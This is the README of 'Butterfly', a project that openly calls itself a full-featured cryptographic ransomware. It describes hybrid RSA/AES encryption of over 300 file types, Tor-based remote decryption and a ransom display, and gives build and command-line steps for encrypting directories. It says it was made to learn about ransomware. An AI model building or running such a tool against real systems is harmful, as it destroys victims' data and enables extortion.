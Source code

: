 # Butterfly
[![Build Status](https://jenkins.bierschi.com/buildStatus/icon?job=butterfly%2Fmaster)](https://jenkins.bierschi.com/job/butterfly/job/master/)
[![License: MIT](https://img.shields.io/badge/License-MIT-green.svg)](https://github.com/bierschi/butterfly/blob/master/LICENSE)
[![Linux](https://svgshare.com/i/Zhy.svg)](https://svgshare.com/i/Zhy.svg)
[![Windows](https://svgshare.com/i/ZhY.svg)](https://svgshare.com/i/ZhY.svg)
<!--[![macOS](https://svgshare.com/i/ZjP.svg)](https://svgshare.com/i/ZjP.svg)-->

<p align="left">
<img src="images/butterfly.png" width="300" height="300">
</p>

Butterfly is a cryptographic ransomware with the following features

- Hybrid Encryption (RSA Asymmetric/AES Symmetric Encryption) :heavy_check_mark:
- Offline Encryption :heavy_check_mark:
- Supports multiple Operating Systems (Linux :heavy_check_mark:, Windows :arrows_counterclockwise:, MacOS :x:)
- Supports over 300 File Extensions :heavy_check_mark:
- Webserver [bflyServerApp](https://github.com/bierschi/butterfly/tree/master/webserver) for a secure remote decryption :heavy_check_mark:
- Ransom Visualization with Browser :heavy_check_mark: GUI :x: Wallpaper :x:
- Decryption over a Tor Hidden Service :heavy_check_mark:
- Connection to the TOR Network :arrows_counterclockwise:
- Bitcoin Payments :x:

## Disclaimer

Butterfly is a full-featured cryptographic ransomware application that irrevocably encrypts your data. This means careless
use leads to permanent data loss (No liability is accepted).
The main purpose for the butterfly project was to build knowledge related to the increased occurrence of ransomwares. <br>

:exclamation: **Butterfly was never supposed to harm or threat other computers** :exclamation:

## Dependencies

Install compilers for the toolchain
<pre><code>
# GCC on Ubuntu
sudo apt-get install gcc g++

# Windows cross compiler for Ubuntu
sudo apt-get install mingw-w64
</code></pre>

Install openssl and boost filesystem libraries
<pre><code>
sudo apt-get install -y libssl-dev libboost-filesystem-dev
</code></pre>

If you enable the logging definition with cmake you also need to install the boost logging library
<pre><code>
sudo apt-get install -y libboost-log-dev
</code></pre>

## Build Butterfly

Build butterfly
<pre><code>
# Clone the repo and create the build/ folder
git clone https://github.com/bierschi/butterfly.git && cd butterfly
mkdir build && cd build

# Execute cmake with options
cmake -DCMAKE_TOOLCHAIN_FILE=../linux.cmake ../
(cmake -DCMAKE_TOOLCHAIN_FILE=../linux.cmake -DUNITTESTS=ON -DLOGGING=ON ../)

# Build the binary
make
</code></pre>

CMake Arguments 
<pre><code>
-DUNITTESTS=ON   # Enables the Unit Tests
-DLOGGING=ON     # Enables the boost logging framework
</code></pre>

## Usage and Examples

Print the available arguments for butterfly
<pre><code>
./butterfly --help
</code></pre>

<pre><code>
butterfly is a cryptographic ransomware

Usage: 
	butterfly --dir /home/butterfly/data/
	butterfly --dir /home/butterfly/data/ --protected

	butterfly --encrypt /home/butterfly/data/ 
	butterfly --decrypt /home/butterfly/data/ 

	butterfly --decrypt /home/butterfly/data/ --key /home/butterfly/butterfly/masterkeys/SPrivateRSA.pem

Options:
	-d,   --dir         Directory path to start the cryptographic ransomware (Encryption+Visualization+Payment+Decryption)
	-enc, --encrypt	    Encrypts all files in provided directory path and shows the ransom visualization
	-dec, --decrypt	    Decrypts all files in provided directory path, if the request to the remote server was successful
	-k,   --key         Masterkey for the decryption, if the remote server is not used (Corresponds to the embedded server public key)
	-p,   --protected   Saves all key files to the system (For manual decryption)
	-c,   --config	    Logger config path
	-v,   --version	    Show version information and quit
	-h,   --help	    Show this message and quit

butterfly homepage at: https://github.com/bierschi/butterfly
</code></pre>

Test the full functionalities of `butterfly`
<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem

# Run the butterfly binary with --dir argument
./butterfly --dir /home/butterfly/data/
</code></pre>

Test the encryption + decryption mechanism separately (+ with remote decryption)
<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem


# Start only the encryption
./butterfly --encrypt /home/butterfly/data

# Start only the decryption
./butterfly --decrypt /home/butterfly/data
</code></pre>

## Unit Tests

Install GTest
<pre><code>
sudo apt-get install libgtest-dev
cd /usr/src/gtest
sudo cmake CMakeLists.txt
sudo make

#copy or symlink libgtest.a and libgtest_main.a to your /usr/lib folder
sudo cp *.a /usr/lib
</code></pre>

Enable the Unit Tests with 
<pre><code>
cmake ../ -DUNITTESTS=ON 
</code></pre>

List all tests
<pre><code>
./butterflyUnitTests --gtest_list_tests
</code></pre>

Run the `butterfly` units
<pre><code>
./butterflyUnitTests
</code></pre>

## Changelog
All changes and versioning information can be found in the [CHANGELOG](https://github.com/bierschi/butterfly/blob/master/CHANGELOG.md)

## License
Copyright (c) 2021 Bierschneider Christian. See [LICENSE](https://github.com/bierschi/butterfly/blob/master/LICENSE)
for details